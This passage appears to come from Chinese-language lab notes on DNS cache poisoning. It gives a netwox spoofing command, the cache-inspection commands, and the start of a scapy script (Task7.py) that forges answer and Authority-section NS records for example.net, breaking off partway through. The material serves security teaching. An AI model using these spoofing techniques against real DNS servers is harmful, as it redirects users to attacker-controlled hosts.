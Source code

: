 
``` sh
# 先清除我们的 DNS 服务器上的缓存:
$ sudo rndc flush
```
``` sh
# 攻击者
$ sudo netwox 105 -h "VM" -H "10.0.2.11" -a "example.net" -A "1.2.2.5" -T 600 -s "raw" -f "src host 10.0.2.11"
```
``` sh
# DNS 服务器查看结果
$ sudo rndc dumpdb -cache
$ sudo cat /var/cache/bind/dump.db
```
![](/note/img/2020-02-16-11-36-30.png)

## T7 DNS Cache Poisoning: Targeting the Authority Section

DNS 缓存毒化: 权威结点. 以前的攻击方式只能针对一个域名进行处理, 效率比较低. 这次直接攻击 DNS 依赖的 *Authority section*, 希望一次攻击能够处理一个域. [DNS 报文结构](http://c.biancheng.net/view/6457.html)

*Task7.py*
``` py
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname):
        print("I am in")
        # 交换源 IP 和目的 IP
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        # 交换源端口和目的端口
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, 
                        type='A', ttl=259200, rdata='1.2.3.6')
        # The Authority Section
        NSsec1 = DNSRR(rrname='example.net', 
                        type='NS', ttl=259200, rdata='ns1.example.net') 
        NSsec2 = DNSRR(rrname='example.net', 
                        type='NS', ttl=259200, rdata='ns2.example.net')
```